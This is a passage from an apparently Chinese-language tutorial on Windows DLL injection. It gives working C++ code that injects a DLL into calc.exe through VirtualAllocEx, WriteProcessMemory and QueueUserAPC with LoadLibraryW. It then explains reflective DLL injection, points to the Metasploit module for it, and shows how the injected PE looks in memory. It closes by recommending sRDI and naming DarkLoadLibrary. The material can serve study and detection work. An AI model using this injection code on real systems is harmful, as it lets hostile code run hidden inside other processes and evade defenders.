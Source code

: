     void main(){  DWORD pid;  vector<DWORD> tids;  if (FindProcess(L"calc.exe", pid, tids))   {    printf("OpenProcess\n");    HANDLE hProcess = ::OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION, FALSE, pid);    printf("VirtualAllocEx\n");    auto p = ::VirtualAllocEx(hProcess, nullptr, 1 << 12, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);    wchar_t buffer[] = L"c:\\test\\testdll.dll";    printf("WriteProcessMemory\n");    ::WriteProcessMemory(hProcess, p, buffer, sizeof(buffer), nullptr);    for (const auto& tid : tids)     {      printf("OpenThread\n");      HANDLE hThread = ::OpenThread(THREAD_SET_CONTEXT, FALSE, tid);      if (hThread)       {        printf("GetProcAddress\n");        ::QueueUserAPC((PAPCFUNC)::GetProcAddress(GetModuleHandle(L"kernel32"), "LoadLibraryW"), hThread, (ULONG_PTR)p);        }    }    printf("VirtualFreeEx\n");    ::VirtualFreeEx(hProcess, p, 0, MEM_RELEASE | MEM_DECOMMIT);  }}

  

反射型dll注入

  

反射DLL注入可以将加密的DLL保存在磁盘（或者以其他形式如shellcode等），之后将其解密放在内存中。之后跟DLL注入一般，使用VirtualAlloc和WriteProcessMemory将DLL写入目标进程。因为没有使用LoadLibrary函数，要想实现DLL的加载运行，我们需要在DLL中添加一个导出函数，ReflectiveLoader，这个函数实现的功能就是加载自身。

  

反射DLL注入实现起来其实十分复杂，需要对PE加载十分了解。通过编写ReflectiveLoader找到DLL文件在内存中的地址，分配装载DLL的空间，并计算
DLL 中用于执行反射加载的导出的内存偏移量，然后通过偏移地址作为入口调用 CreateRemoteThread函数执行。

  

msf已经有了相应的模块：

  

  * 

    
    
    windows/manage/reflective_dll_inject

  

在内存中，可以看到明显的PE标识：

  

![](https://gitee.com/fuli009/images/raw/master/public/20211015094914.png)

  

将其dump后

  

![](https://gitee.com/fuli009/images/raw/master/public/20211015094914.png)

  

放入PE查看工具，可看到其为正常的PE文件与RDI特有的名字：

  

![](https://gitee.com/fuli009/images/raw/master/public/20211015094916.png)

  

此类文件可配合sRdi使用，效果更佳。

  

DarkLoadLibrary
